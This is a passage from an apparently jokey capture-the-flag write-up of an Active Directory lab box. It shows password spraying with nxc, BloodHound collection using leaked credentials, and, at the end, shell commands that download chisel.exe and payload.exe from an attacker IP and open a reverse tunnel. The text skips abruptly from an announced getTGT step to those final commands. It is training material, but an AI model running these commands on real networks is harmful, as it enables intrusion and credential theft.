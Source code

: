 We flex for a **Kerberoasting** round just in case someone slipped, but nah, nothing juicy. No tickets, no service accounts, just disappointment. But hold up — plot twist. Our recon pulls up a lil’ easter egg: **user k.turner** has a password just chillin’ in their description field. Man’s out here treating Active Directory like a Post-it note.

```console
$ nxc smb dc01.infiltrator.htb -u 'l.clark' -p 'WAT?watismypass!' --users | grep K.turner
SMB                      10.10.11.31   445    DC01             K.turner                      2024-02-25 15:40:35 1       MessengerApp@Pass!
```

So we take this blessed gift from k.turner’s description field and we **yeet** it into a password spray like we’re Oprah handing out creds:

> _“You get a login! YOU get a login! ERRBODY LOGGING IN!”_

```console
$ nxc smb dc01.infiltrator.htb -u users.txt -p 'MessengerApp@Pass!' --continue-on-success
SMB         10.10.11.31   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31   445    DC01             [-] infiltrator.htb\k.turner:MessengerApp@Pass! STATUS_LOGON_FAILURE
SMB         10.10.11.31   445    DC01             [-] infiltrator.htb\d.anderson:MessengerApp@Pass! STATUS_LOGON_FAILURE
```

But then... Curveball. We see that both `m.harris` and `d.anderson` get the message `STATUS_ACCOUNT_RESTRICTION`. Excuse me??? Microsoft really out here like:

> “Woah woah woah, hold up... you _do_ have the right password, but uhh... no entry. Try again when your chakras are aligned or whatever.” 

This ain't a wrong password, nah. This is **“you got it, but you still ain't allowed.”** That’s the cyber equivalent of your key working in the lock but some dude inside just holding the door shut whispering, _“not today, boi.”_

So yeah — creds probably valid, but maybe they’re disabled, locked out, got logon restrictions, or just spiritually unavailable. Either way, these accounts are on some ✨emotional boundary✨ arc and we gotta pivot.

### Bloodhound
So now that we got creds for `l.clark` (shoutout to my boy k.turner), we unleash **BloodHound** to sniff out the domain like a digital truffle pig.

```console
$ docker run -v ${PWD}:/bloodhound-data -it bloodhound
$ bloodhound-python -u 'l.clark' -p 'WAT?watismypass!' -ns 10.10.11.31 -d infiltrator.htb --zip -c All
```

We throw that juicy ZIP into BloodHound-CE like it’s an offering to the graph gods — and lo and behold, our good sis `l.clark` is chillin’ with the **Marketing Team**. Nothing too spicy yet, but wait... The Chiefs Marketing group has the `ForceChangePassword` on the user `M.Harris`. That's a bingo!

Meanwhile, `d.anderson` still out here on that **NTLM ain’t my vibe** energy — he’s vibing strictly in **Kerberos-only** mode. Man's spiritually allergic to NTLM. But lucky for us, we speak fluent Kerberos. So we flex with `getTGT.py`, praying to the Impacket gods for a valid TGT:


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe